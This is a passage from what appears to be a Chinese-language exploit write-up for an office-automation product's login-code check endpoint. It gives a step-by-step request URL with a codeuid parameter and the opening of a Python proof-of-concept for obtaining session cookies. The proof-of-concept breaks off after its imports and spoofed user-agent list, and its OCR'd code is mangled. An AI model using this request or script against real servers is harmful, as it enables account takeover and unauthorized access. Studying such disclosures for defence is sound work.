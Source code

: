 > 第三步：

```
http://www.0-sec.org/ispirit/login_code_check.php?codeuid={EED2B9FE-F865-DCF1-0E8D-3326AE163F6D} 
```

![image](img/c116c991f4c80ad6d8a5661fdc0f3496.png)

> 第四步：

![image](img/12d2fa48e8776ad49126d29871d5b9cb.png)

### 获取cookie poc

```
import requests
import argparse
import random
import warnings
import sys
import re

class Tond_da_poc():

def **init**(self,url):

self.url = url+’/’

self.user_agent =USER_AGENTS = [

“Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; AcooBrowser; .NET CLR 1.1.4322; .NET CLR 2.0.50727)”,

“Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.0; Acoo Browser; SLCC1; .NET CLR 2.0.50727; Media Center PC 5.0; .NET CLR 3.0.04506)”,

“Mozilla/4.0 (compatible; MSIE 7.0; AOL 9.5; AOLBuild 4337.35; Windows NT 5.1; .NET CLR 1.1.4322; .NET CLR 2.0.50727)”,

“Mozilla/5.0 (Windows; U; MSIE 9.0; Windows NT 9.0; en-US)”,

“Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 2.0.50727; Media Center PC 6.0)”,

“Mozilla/5.0 (compatible; MSIE 8.0; Windows NT 6.0; Trident/4.0; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET CLR 1.0.3705; .NET CLR 1.1.4322)”,
```